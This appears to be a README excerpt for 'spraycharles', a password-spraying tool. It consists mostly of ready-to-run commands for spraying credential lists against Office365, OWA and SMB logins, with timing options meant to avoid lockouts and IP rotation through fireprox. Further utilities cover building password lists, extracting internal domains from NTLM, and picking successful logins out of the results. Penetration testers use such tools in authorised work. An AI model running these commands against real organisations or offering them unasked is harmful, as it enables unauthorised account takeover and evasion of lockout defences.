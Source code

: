### Examples ###
Basic usage (Office365)
```
spraycharles spray -u users.txt -p passwords.txt -m Office365
```
Basic usage (non-Office365) with a single password, supplied via command line
```
spraycharles spray -u users.txt -H webmail.company.com -p Password123 -m owa
```
Attempt 5 logins per user every 20 minutes
```
spraycharles spray -u users.txt -H webmail.company.com -p passwords.txt -i 20 -a 5 -m owa
```
Usage with fireprox (Office365)
```
spraycharles spray -u users.txt -p passwords.txt -m office365 -f abcdefg.execute-api.us-east-1.amazonawms.com
```
Spray host over SMB with 2 attempts per user every hour
```
spraycharles spray -u users.txt -p passwords.txt -m Smb -H 10.10.1.5 -a 2 -i 60
```

<br/>

## Utilities ##
Spraycharles is packaged with some additional utilities to assist with spraying efforts.
<br/>

#### Generating Custom Spray Lists
The spraycharles "gen" subcommand will generate a password list based off the specifications provided in extras/list_elements.json

```
spraycharles gen extras/list_elements.json custom_passwords.txt
```

<br/>

#### Extracting Domain from NTLM over HTTP and SMB
The spraycharles parse subcommand will extract the internal domain from both NTLM over HTTP and SMB services using a command similar to the one listed below.


```
spraycharles parse https://example.com/ews
```

<br/>

### Analyzing the results CSV file ###
The `analyze` submodule can read your output CSV and determine response lengths that are statistically relevant. With enough data, it should be able to pull successful logins out of your CSV file. This is not the only way to determine successful logins, depending on your target site, and I would still recommend checking the data yourself to be sure nothing is missed. For SMB, it will simply find entries with NTSTATUS codes that indicate success.
